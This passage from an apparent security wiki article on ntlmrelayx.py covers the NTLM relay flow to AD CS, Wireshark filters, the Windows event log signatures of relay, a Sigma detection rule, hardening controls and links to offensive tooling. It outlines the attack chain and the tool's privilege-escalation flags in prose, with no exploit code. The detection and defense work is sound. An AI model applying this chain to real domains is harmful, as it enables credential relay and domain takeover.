- Server responds with NTLM authentication challenge.
- Attacker sends a modified version of the victim's NEGOTIATE_MESSAGE.
- Server responds with CHALLENGE_MESSAGE.

### Completing the relay

- Attacker sends the CHALLENGE_MESSAGE back to the victim via SMB.
- Victim computes the response and sends AUTHENTICATE_MESSAGE.
- Attacker forwards the AUTHENTICATE_MESSAGE to CA01 via HTTPS.
- CA01 verifies with its DC via NETLOGON.
- Both sessions complete.

### Post authentication (ADCS attack)

- Attacker submits a certificate request via HTTPS, authenticated as the victim.
- CA01 issues the certificate.
- Attacker downloads the certificate.

### Wireshark filters

```text
ntlmssp                                # all NTLM messages
ntlmssp.messagetype == 0x00000001       # NEGOTIATE
ntlmssp.messagetype == 0x00000002       # CHALLENGE
ntlmssp.messagetype == 0x00000003       # AUTHENTICATE
smb2 and ntlmssp                       # SMB NTLM traffic
http and ntlmssp                       # HTTP NTLM traffic
ldap and ntlmssp                       # LDAP NTLM traffic
tcp.port == 6666                       # ntlmrelayx RAW server
```

Network monitoring that correlates NTLM authentication sources with targets (authentication from host A to server B) reveals relay attacks because the authentication source IP does not match what a legitimate authentication would show.


## What it looks like in logs

Log signatures vary by the protocol relayed to and by the post relay action. The following apply across most scenarios.

### Target side: Event ID 4624 / 4625 with anomalous source

On the target, a 4624 (logon success) or 4625 (logon failure) fires for each relay attempt. The key fields:

| Field | Value |
|:---|:---|
| LogonType | `3` (network). |
| AuthenticationPackageName | `NTLM`. |
| WorkstationName | The NetBIOS name the attacker's server sent. `ntlmrelayx.py` defaults to `SMBSERVER` for SMB. |
| IpAddress | The attacker's IP. |
| TargetUserName | The relayed user's name. |

A 4624 where the user's normal WorkstationName is `WS01` but this event shows `SMBSERVER` (or the attacker's hostname) is the classic relay signature. Most environments do not baseline WorkstationName against expected sources, which is why this signal is often missed.

### Target side: 5136 for LDAP writes

When `--delegate-access`, `--shadow-credentials`, or `--escalate-user` is used, the corresponding LDAP write produces a 5136 event. Specifically:

- `msDS-AllowedToActOnBehalfOfOtherIdentity` modifications (covered in detail in [`rbcd.py`](../07_ad_modification/rbcd.md)).
- `msDS-KeyCredentialLink` modifications (for Shadow Credentials).
- Group membership changes for `--escalate-user`.

The 5136 rule for RBCD configuration changes catches `--delegate-access`. A similar rule for `msDS-KeyCredentialLink` catches `--shadow-credentials`.

### ADCS side: certificate issuance events

AD CS logs certificate issuance in the Security log on the CA. The key fields identify the requester and the template. For ESC8 attacks, the requester is the relayed computer account (e.g., `DC01$`) rather than an administrator; this is anomalous and detectable if monitored.

### Coercion side: source events

For PetitPotam coercion, the EFSR RPC calls on the target produce event log entries depending on audit configuration. For PrinterBug, the Print Spooler service logs. Most of these require specific audit policy enablement and are not captured by default.

### Starter Sigma rules

```yaml
title: NTLM Authentication from Atypical Workstation
description: |
  A 4624 event shows NTLM authentication where the WorkstationName does
  not match the user's normal source host. Indicative of NTLM relay.
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4624
    LogonType: 3
    AuthenticationPackageName: 'NTLM'
    WorkstationName:
      - 'SMBSERVER'
      - 'NULL'
      - ''
  condition: selection
level: medium
```

This rule catches the default `ntlmrelayx.py` workstation names. Custom server names via configuration would evade this, so pair with behavioral detection.


## Detection and defense

### Detection opportunities

**4624 WorkstationName anomalies.** As described above. High fidelity against default configuration.

**5136 on critical AD attributes.** `msDS-AllowedToActOnBehalfOfOtherIdentity`, `msDS-KeyCredentialLink`, and group membership modifications from computer accounts are strong relay indicators.

**LDAP authentications from non DC computer accounts.** A computer account authenticating to an LDAP server other than its own DC is anomalous. Pair with authentication source IP analysis.

**ADCS certificate issuance anomalies.** Certificates issued for computer accounts to users on templates they do not normally use. Most AD CS deployments do not baseline this.

**NTLMv1 usage.** Any NTLMv1 authentication is an artifact of legacy configuration that should be investigated. NTLMv1 is also directly crackable, making it a priority finding.

**Microsoft Defender for Identity.** MDI specifically detects many NTLM relay variants. If deployed, it is the most actionable signal source for this category.

### Preventive controls

The defense side is where most of the mitigation work happens. NTLM relay has been studied for over two decades and the defenses are well understood; the challenge is deploying them at scale.

- **Enforce SMB signing on all servers.** Mandatory by default on Windows Server 2025. For earlier versions, enable via Group Policy. Blocks SMB to SMB relay.
- **Enforce LDAP signing and channel binding.** Default in Windows Server 2022 23H2 and later. For earlier versions, enable via `HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters\LdapEnforceChannelBinding = 2` and corresponding signing settings. Blocks LDAP and LDAPS relay.
- **Enable Extended Protection for Authentication on all TLS endpoints** including ADCS Web Enrollment, Exchange, and other IIS hosted services. Blocks HTTPS relay.
- **Disable AD CS Web Enrollment** if not actively used. Default disabled in Windows Server 2025. Blocks ESC8.
- **Disable NTLM where possible.** Windows supports gradual NTLM audit and blocking via Group Policy. Start with audit, identify legitimate NTLM usage, migrate or allowlist, then block. The journey is multi year for most enterprises.
- **Disable LLMNR, NBT-NS, mDNS.** Blocks Responder style poisoning at the source.
- **Disable IPv6 SLAAC or block DHCPv6 spoofing.** Blocks mitm6. Windows Firewall rule blocking inbound DHCPv6 on non DHCP clients is the standard mitigation.
- **Patch and disable the coercion surfaces:**
    - PetitPotam (CVE-2021-36942): patched but additional coercion variants continue to be published. Consider disabling EFSR RPC altogether if not needed.
    - PrinterBug: disable Print Spooler on domain controllers (Microsoft recommended since 2021).
    - DFSCoerce: patched but monitor for new variants.
- **MachineAccountQuota = 0.** Blocks the `--delegate-access` attack chain by preventing the computer account creation step. See [`addcomputer.py`](../07_ad_modification/addcomputer.md).
- **Protected Users group for privileged users.** Prevents NTLM authentication for members, blocking user credential relay for those accounts.
- **Credential Guard.** Protects credentials on workstations, reducing the utility of captured credentials.
- **Network segmentation.** Restrict SMB and LDAP access between zones. Most enterprises do not legitimately need workstation to workstation SMB.


## Related tools and attack chains

`ntlmrelayx.py` is the central tool in the Relay Attacks category. It connects to almost every other article in the wiki.

### Coercion tools (upstream of ntlmrelayx)

- **Responder** at `https://github.com/SpiderLabs/Responder`. LLMNR / NBT-NS / mDNS poisoning.
- **mitm6** at `https://github.com/dirkjanm/mitm6`. IPv6 DHCPv6 spoofing.
- **PetitPotam** at `https://github.com/topotam/PetitPotam`. MS-EFSR coercion.
- **SpoolSample** at `https://github.com/leechristensen/SpoolSample`. MS-RPRN coercion.
- **DFSCoerce** at `https://github.com/Wh04m1001/DFSCoerce`. MS-DFSNM coercion.
- **Coercer** at `https://github.com/p0dalirius/Coercer`. Consolidated coercion.

### Downstream tools (consume ntlmrelayx output)

- **[`getST.py`](../02_kerberos_attacks/getST.md)** for the S4U2Self+S4U2Proxy exploitation after `--delegate-access`.
- **[`secretsdump.py`](../03_credential_access/secretsdump.md)** for credential extraction after SMB relay or to DCSync after ESC8.
- **[`psexec.py`](../04_remote_execution/psexec.md)** and siblings for command execution after relay.
- **`pkinittools`** at `https://github.com/dirkjanm/PKINITtools`. `gettgtpkinit.py` and `getnthash.py` for Shadow Credentials and ESC8 exploitation.
- **[`smbclient.py`](../05_smb_tools/smbclient.md)** for interactive SMB access via SOCKS.

### Related relay tools

- **[`smbrelayx.py`](smbrelayx.md)** (same category). The older SMB only relay tool. `ntlmrelayx.py` is the superset.

### The complete modern attack chain diagram



The chain illustrates why `ntlmrelayx.py` is so central: it is the single tool that converts "any authentication coercion technique" into "any domain compromise outcome" across five distinct attack paths.


## Further reading

- **`[MS-NLMP]`: NT LAN Manager (NTLM) Authentication Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/`. The authoritative NTLM specification. Sections 3 and 5 cover the message formats and security considerations.
- **Sir Dystic "SMBRelay"** (2001). The original NTLM relay tool. Historical interest primarily.
- **Dirk-jan Mollema "I'm bringing relaying back" series** at `https://dirkjanm.io/`. The canonical modern reference for NTLM relay attacks. Multiple posts covering different variants.
- **Trusted Sec "A Comprehensive Guide on Relaying"** at `https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022`. Updated practical walkthrough with Shadow Credentials and ADCS.
- **Will Schroeder and Lee Christensen "Certified Pre-Owned"** at `https://specterops.io/research/`. The foundational AD CS vulnerability paper that introduced ESC1 through ESC8. Required reading for understanding the ADCS attack surface.
- **Gilles Lionel (`@topotam77`) PetitPotam research** at `https://github.com/topotam/PetitPotam`. The MS-EFSR coercion primitive.
- **Lee Christensen SpoolSample** at `https://github.com/leechristensen/SpoolSample`. The MS-RPRN coercion primitive.
- **Microsoft `KB5005413` "Mitigating NTLM Relay Attacks on Active Directory Certificate Services"** at `https://support.microsoft.com/en-us/topic/kb5005413`. Microsoft's defensive guidance for AD CS.
- **Red Team Pentesting "The Ultimate Guide to Windows Coercion Techniques in 2025"** at `https://blog.redteam-pentesting.de/2025/windows-coercion/`. Recent comprehensive coercion reference.
- **Microsoft Defender for Identity documentation** at `https://learn.microsoft.com/en-us/defender-for-identity/`. Describes specifically which NTLM relay attacks MDI detects.
- **Elad Shamir "Wagging the Dog"** at `https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html`. Relevant for understanding the RBCD side of `--delegate-access`.
- **Nodauf Shadow Credentials research** via the TrustedSec blog. Details the msDS-KeyCredentialLink attack that `--shadow-credentials` implements.
- **MITRE ATT&CK T1557.001** at `https://attack.mitre.org/techniques/T1557/001/`. LLMNR/NBT-NS Poisoning and SMB Relay.
- **GuidePoint Security "Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques"** at `https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/`. Practical scenarios including MSSQL and WinRM relay.

If you want to internalize this material, build a lab domain with deliberately weak configuration (SMB signing not enforced, LDAP signing not enforced, AD CS Web Enrollment enabled with default settings). Run through the ten scenarios documented above one at a time. Then run through them again against the same lab after applying the hardening controls from the defense section. The before and after comparison is the best way to develop intuition for which attacks work in which configurations and why. NTLM relay has been an important attack class for 25 years and is likely to remain so for another decade at least; understanding it deeply is one of the highest leverage investments a practitioner can make in their Active Directory security practice.
